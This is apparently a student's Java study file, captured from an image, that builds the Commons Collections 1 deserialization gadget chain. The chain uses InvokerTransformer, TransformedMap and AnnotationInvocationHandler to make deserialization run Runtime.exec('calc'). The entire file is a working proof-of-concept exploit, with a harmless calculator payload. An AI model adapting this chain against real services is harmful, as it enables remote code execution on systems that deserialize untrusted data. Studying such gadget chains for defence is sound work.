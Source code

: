 ```bash
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r 不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);




        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


        serialize(o);
        unserialize("ser.bin");
    }

```